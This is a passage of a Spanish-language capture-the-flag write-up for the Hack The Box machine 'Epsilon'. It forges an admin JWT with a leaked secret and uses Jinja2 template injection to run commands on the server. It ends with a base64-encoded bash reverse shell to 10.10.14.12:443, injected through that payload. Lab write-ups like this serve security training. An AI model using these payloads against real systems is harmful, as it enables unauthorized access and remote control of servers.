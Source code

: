 Este secreto sirve para el server.py

```console
└─$ python3
>>> import jwt
>>> secret = 'RrXCv`mrNe!K!4+5`wYq'
>>> jwt.encode({'username':'admin'}, secret, algorithm='HS256')
'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'
```
![epsilon3](https://user-images.githubusercontent.com/96772264/201491434-b5cb84a6-b50a-4b3d-aad5-2ceeb7107052.PNG)

Ahora podemos entrar en la ruta /order con POST -> costume=glasses&q=test&addr=test  
![epsilon4](https://user-images.githubusercontent.com/96772264/201491443-f10663ed-7470-4782-8f8f-889dad5b7f09.PNG)
![epsilon5](https://user-images.githubusercontent.com/96772264/201491447-1b35ac7e-c60a-4686-98b8-6e770a0dd9f0.PNG)

---------------------------------
## Parte 4: Accediendo al sistema

Para maniobrar mas cómodamente me hago un script: 

```python
import requests

sess = requests.session()
main_url = "http://epsilon.htb:5000/order"
cookies = {'auth':'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.8JUBz8oy5DlaoSmr0ffLb_hrdSHl0iLMGz-Ece7VNtg'}

data = {'costume':'glasses','q':'test','addr':'test'}
req = sess.post(main_url, cookies=cookies, data=data)
print(req.text)
```
```console
*** Select your costume and place an order ***
We've limited stock right now!

                  [One of: Retro Sun Glasses/Time Traveller Goggles Top Hat/
Select a Costume: Kinetic Kitten Mask/Phantom Mask/Phantom Mask/Phantom Mask/
                  Phantom Mask]
Enter Quantity:   [q                   ]
Enter Address:
[Order]
Your order of "glasses" has been placed successfully.
```

Como es python y refleja el resultado, podriamos probar un STTI: ```data = {'costume':'{{7*7}}','q':'1','addr':'{{7*7}}'}```  
Si pongo ```{{url_for.__globals__.os.popen('whoami').read()}}``` el resultado es: ```Your order of "tom " has been placed successfully.```  

```console
└─$ echo "bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1'" | base64 -w0
YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK
```
```python
comando = "echo YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMi80NDMgMD4mMScK | base64 -d | bash"
stti = "{{url_for.__globals__.os.popen('" + comando + "').read()}}"
data = {'costume': stti,'q':'1','addr':'{{7*7}}'}
```
